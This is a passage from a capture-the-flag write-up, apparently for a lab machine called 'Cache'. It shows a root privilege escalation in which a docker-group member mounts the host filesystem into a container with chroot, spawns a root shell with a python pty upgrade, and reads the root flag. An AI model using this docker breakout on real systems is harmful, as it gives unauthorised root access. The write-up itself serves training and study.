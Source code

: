 ### Docker container escapa
However, we recall from previous enumeration that ```luffy``` is part of the ```docker``` group. Hence, we will staty by checking the docker images and containers that are running on this terminal. We realized that even though there is no docker container running at the moment, we are able to execute a dockerised ubuntu iamge.

```
luffy@cache:~$ docker ps
docker ps
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
luffy@cache:~$ docker images
docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        23 months ago       64.2MB
```

Lastly, we will spawn a root shell using the docker image to break out of the restricted environment.

```
luffy@cache:~$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh                    
docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh
# python3 -c 'import pty; pty.spawn("/bin/bash")'    
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@3bfb2314758:/# export TERM=xterm
export TERM=xterm
root@3bfb231b4758:/# stty cols 132 rows 34
stty cols 132 rows 34
root@3bfb231b4758:/# cd /root

cd /root
root@3bfb231b4758:~# 
```

### Obtaining the root flag

Lastly, we just have to obtain the root flag

```
root@3bfb231b4758:~# cat root.txt
cat root.txt
<Redacted root flag>
root@3bfb231b4758:~# 
```
